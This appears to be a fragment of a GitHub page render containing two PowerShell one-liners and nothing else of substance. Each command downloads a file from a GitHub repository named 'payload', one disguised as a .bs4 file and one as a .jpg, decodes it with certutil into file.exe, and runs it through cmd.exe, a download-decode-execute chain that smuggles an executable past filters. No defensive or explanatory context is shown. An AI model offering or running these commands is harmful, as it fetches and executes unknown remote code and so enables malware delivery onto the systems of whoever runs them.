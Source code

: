 <code>powershell Invoke-WebRequest https://raw.githubusercontent.com/halitAKAYDIN/payload/main/file.bs4 -O file.bs4 & certutil -decode file.bs4 file.exe & cmd.exe /c file.exe</code>

<code>powershell Invoke-WebRequest https://raw.githubusercontent.com/halitAKAYDIN/payload/main/file.jpg -O file.jpg & certutil -decode file.jpg file.exe & cmd.exe /c file.exe</code>
